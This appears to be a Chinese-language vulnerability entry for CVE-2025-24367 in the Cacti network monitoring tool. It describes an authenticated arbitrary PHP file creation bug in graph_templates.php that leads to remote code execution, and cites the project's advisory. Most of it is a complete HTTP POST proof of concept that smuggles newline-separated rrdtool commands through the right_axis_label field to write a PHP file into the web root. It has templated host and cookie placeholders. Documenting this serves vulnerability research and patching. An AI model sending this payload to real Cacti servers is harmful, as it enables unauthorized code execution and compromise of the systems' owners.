 # CVE-2025-24367

>Cacti是一款基于PHP开发的网络流量监测图形分析工具。

## 来源

[https://github.com/Cacti/cacti/security/advisories/GHSA-fxrq-fr7h-9rqq](https://github.com/Cacti/cacti/security/advisories/GHSA-fxrq-fr7h-9rqq)

## 简介

Cacti的/cacti/graph_templates.php?header=false接口存在任意文件创建漏洞，经身份验证的Cacti用户可利用图表创建和图表模板功能，在应用程序的Web根目录中创建任意的PHP文件，进而导致服务器上的远程代码执行。

## 影响范围

-   Cacti <= 1.2.28


## 漏洞类型

任意文件创建

## POC

```http
POST /cacti/graph_templates.php?header=false HTTP/1.1
host: {{Hostname}}
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
content-length: 804
Origin: http://192.168.178.78
Connection: keep-alive
Referer: http://{host}/cacti/graph_templates.php?action=template_edit&id=297&csrf_timeout=true&csrf_timeout=true
Cookie: {{Cookie}}
Priority: u=0

__csrf_magic=sid%3A3363ef9d47d62372302b4941b790e92f5f749d9c%2C1735913031&name=PING+-+Advanced+Ping&graph_template_id=297&graph_template_graph_id=297&save_component_template=1&title=%7Chost_description%7C+-+Advanced+Ping&vertical_label=milliseconds&image_format_id=3&height=200&width=700&base_value=1000&slope_mode=on&auto_scale_opts=1&upper_limit=10&lower_limit=0&unit_value=&unit_exponent_value=1&unit_length=&right_axis=&right_axis_label=XXX%0Acreate+my.rrd+--step+300+DS%3Atemp%3AGAUGE%3A600%3A-273%3A5000+RRA%3AAVERAGE%3A0.5%3A1%3A1200%0Agraph+xxx2.php+-s+now+-a+CSV+DEF%3Aout%3Dmy.rrd%3Atemp%3AAVERAGE+LINE1%3Aout%3A%3C%3F%3Dphpinfo%28%29%3B%3F%3E%0A&right_axis_format=0&right_axis_formatter=0&left_axis_formatter=0&tab_width=30&legend_position=0&legend_direction=0&rrdtool_version=1.7.2&action=save
```

